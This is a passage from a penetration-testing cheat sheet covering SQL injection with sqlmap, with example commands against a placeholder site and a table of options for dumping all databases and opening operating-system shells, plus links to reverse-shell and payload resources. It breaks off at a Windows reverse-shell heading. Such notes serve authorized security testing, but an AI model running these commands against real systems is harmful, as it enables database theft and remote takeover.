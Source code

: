 **Always make sure to properly close the surrounding code.**

Read this [article](https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF) to learn how to bypass WAF.

### sqlmap

Inject SQL code into request parameters:

```fundamental
sqlmap -a -u somesite.com/index.php?username=test&password=test

sqlmap -a -u somesite.com/index.php --data username=test&password=test

sqlmap -a -u somesite.com/index.php --data username=test&password=test -p password
```

| Option | Description |
| --- | --- |
| -u | Target URL |
| -H | Extra HTTP header |
| --data | Data string to be sent through POST |
| --cookie | HTTP Cookie header value |
| --proxy | Use a proxy to connect to the target URL (\[protocol://\]host\[:port\]) |
| -p | Testable parameter(s) |
| --level | Level of tests to perform (1-5, default: 1) |
| --risk | Risk of tests to perform (1-3, default: 1) |
| -a | Retrieve everything |
| -b | Retrieve DBMS banner |
| --dump-all | Dump all DBMS databases tables entries |
| --os-shell | Prompt for an interactive operating system shell |
| --os-pwn | Prompt for an OOB shell, Meterpreter, or VNC |
| --sqlmap-shell | Prompt for an interactive sqlmap shell |
| --wizard | Simple wizard interface for beginner users |

### Web Shells

Find out more about PHP shells from my other [project](https://github.com/ivan-sincek/php-reverse-shell).

Find out more about Java/JSP shells from my other [project](https://github.com/ivan-sincek/java-reverse-tcp).

### Send Payload With Python

Find out how to generate a `reverse shell payload` for Python and send it to a target machine from my other [project](https://github.com/ivan-sincek/send-tcp-payload).

## 4. Post Exploitation

### 4.1 Useful Websites

* [swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
* [lolbas-project.github.io](https://lolbas-project.github.io)
* [gtfobins.github.io](https://gtfobins.github.io)

### Generate a Reverse Shell Payload for Windows OS
